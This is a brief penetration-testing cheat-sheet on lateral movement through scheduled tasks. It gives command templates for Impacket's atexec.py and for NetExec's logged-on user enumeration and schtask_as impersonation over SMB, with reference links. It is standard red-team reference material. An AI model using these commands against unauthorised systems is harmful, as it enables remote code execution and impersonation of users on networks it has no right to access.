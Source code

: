 # Unix Shell

## 01 - Impacket

`$ atexec.py <username>:<password>@<IP> -silentcommand [-nooutput] "<command>"`

## 02 - NetExec

### 2.1 - Enumerate Logged-on Users

`$ netexec smb <IP> -u "<username>" -p "<password>" [--local-auth] --loggedon-users`

### 2.2 - Execute via Impersonation

```
$ netexec smb <IP> -u "<username>" -p "<password>" [--local-auth] -M schtask_as -o USER=<logged-on_user> CMD="<command>"
```

---
## References

- [NetExec Wiki: Impersonate logged-on Users](https://www.netexec.wiki/smb-protocol/impersonate-logged-on-users)

- [Pentest Party: Lateral Movement Scheduled Task](https://pentest.party/notes/lateral-movement/scheduled-task)
